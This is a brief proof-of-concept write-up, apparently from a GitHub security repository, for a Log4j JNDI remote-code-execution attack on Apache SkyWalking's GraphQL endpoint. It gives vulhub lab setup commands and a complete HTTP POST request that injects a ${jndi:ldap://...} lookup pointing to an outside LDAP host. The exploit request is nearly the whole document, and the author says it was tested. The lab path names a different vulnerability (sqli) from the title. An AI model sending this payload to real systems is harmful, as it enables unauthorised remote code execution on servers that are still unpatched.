

# Apache SkyWalking log4j RCE

## vulhub

```
cd vulhub/skywalking/8.3.0-sqli
docker-compose up -d
```

## Poc

```
POST /graphql HTTP/1.1
Host: xxxxxx:8089
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 461

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      ${jndi:ldap://test_skywalking.xxxx.com}
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"test",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

I've tested it


